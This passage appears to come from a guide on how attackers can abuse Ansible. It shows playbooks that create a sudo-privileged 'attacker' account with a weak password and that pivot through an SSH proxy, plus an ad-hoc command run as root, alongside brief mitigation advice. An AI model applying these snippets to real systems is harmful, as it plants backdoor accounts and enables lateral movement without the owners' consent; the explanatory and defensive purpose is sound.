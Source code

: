 ### 6. **Creating Users with Elevated Privileges**
   - You can use Ansible to create new users and add them to privileged groups, potentially escalating privileges.
   - Example:
     ```yaml
     - name: Create a new user with root privileges
       hosts: all
       become: yes
       tasks:
         - name: Create a new user
           user:
             name: attacker
             password: "{{ 'password' | password_hash('sha512') }}"
             shell: /bin/bash
             groups: sudo
             append: yes
     ```

### 7. **Pivoting Through SSH Proxy**
   - By using an SSH proxy with Ansible, an attacker can pivot to other network segments or hosts, moving laterally across the network.
   - Example:
     ```yaml
     - name: Connect through SSH proxy and execute command
       hosts: all
       become: yes
       tasks:
         - name: Configure SSH proxy
           set_fact:
             ansible_ssh_common_args: '-o ProxyCommand="ssh -W %h:%p user@proxyhost"'

         - name: Run command on target via proxy
           command: hostname
     ```

### **Key Points to Secure Against These Risks**:
- **Restrict `--become` Usage**: Limit the use of `--become` and control which users and hosts are allowed to escalate privileges.
- **Secure Playbooks**: Ensure that playbooks are stored securely and only trusted users have access.
- **Audit and Logging**: Regularly audit the execution of Ansible playbooks and maintain detailed logs to detect unauthorized usage.
- **Use SSH Key Management**: Properly manage and secure SSH keys to prevent unauthorized lateral movement.

Ansible ad-hoc commands can be powerful tools for quick, one-off tasks, but they can also be abused if an attacker gains control over them. Below are examples of ad-hoc commands that could be exploited for privilege escalation, lateral movement, or other malicious activities:

### 1. **Privilege Escalation with `--become`**
   - An attacker could use ad-hoc commands with the `--become` flag to escalate privileges, especially if they have access to an account with sudo privileges.
   - Example:
     ```bash
     ansible all -m shell -a "whoami" --become --become-user=root
     ```
   - This command runs `whoami` as the root user on all hosts.
